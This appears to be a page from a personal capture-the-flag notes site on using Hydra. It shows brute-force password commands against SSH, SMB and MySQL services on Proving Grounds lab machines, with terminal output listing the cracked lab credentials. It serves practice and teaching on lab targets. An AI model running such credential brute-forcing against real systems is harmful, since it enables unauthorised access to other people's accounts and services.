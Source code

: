 ```yaml
---
layout: default
title: Hydra
parent: Cracking
nav_order: 5
---
```


# Hydra

---

## SSH

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## SMB

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ hydra -L users -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://192.168.166.90

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-30 08:46:53
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 3027 login tries (l:3/p:1009), ~3027 tries per task
[DATA] attacking smb://192.168.166.90:445/
[445][smb] host: 192.168.166.90   login: admin   password: tinkerbell
[445][smb] host: 192.168.166.90   login: administrator   password: password1
[445][smb] host: 192.168.166.90   login: root   password: elizabeth
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-30 08:46:58


```

## MySQL

Run Hydra against the mysql service with the _root_ username.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.243.88 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-05 16:11:17
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.243.88:3306/
[3306][mysql] host: 192.168.243.88   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-05 16:11:26

```

